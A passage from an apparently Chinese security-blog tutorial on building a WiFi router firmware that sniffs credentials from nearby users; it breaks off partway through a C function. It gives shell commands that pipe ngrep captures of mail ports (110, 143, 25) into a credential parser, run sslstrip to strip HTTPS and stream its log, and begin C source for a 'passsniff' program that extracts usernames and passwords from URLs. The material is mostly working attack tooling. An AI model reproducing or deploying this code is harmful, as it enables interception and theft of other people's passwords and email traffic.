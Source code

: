 如何制作软件包集成进固件在第二章介绍，此处不再赘述

0x02 数据交互：
----------

* * *

实例说明：

```
echo "1" > ${1}/sslstrip.log

```

将echo的结果写入文件（basepath从外部PHP调用传入）

```
ngrep -l -q -W byline -d $1 port 110 or 143 or 25|mailsniff

```

将ngrep的stdout接到mailsniff的stdin上（device从外部PHP调用传入）

注意：这里的ngrep -l 选项是为了使ngrep的stdout以行为单位缓冲，避免由于数据缓冲导致的数据不及时同步问题

而sslstrip本身是输出一个log文件

```
sslstrip -w ${1}/sslstrip.log -l 10000 & 
tail -f ${1}/sslstrip.log|stripsslstrip &

```

使用tail就可以实现实时输出

0x03 自动机设计：
-----------

* * *

以passsniff为例介绍C语言自动机设计：

```
/*
    code by lxj616@wooyun
*/
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <stdio.h>
#include <unistd.h>

//Openwrt默认权限可以读写etc下文件
void get_basepath(char *basepath)
{
    FILE *fp1;
    fp1 = fopen("/etc/wooyunwifi/basepath.conf","r");
    fscanf(fp1,"%s",basepath);  
    fclose(fp1);
}

//解析URL中用户名和密码
void strip_pass(char *basepath,char *buffer,char *host)
{
    int i;
    int flag=0;
```
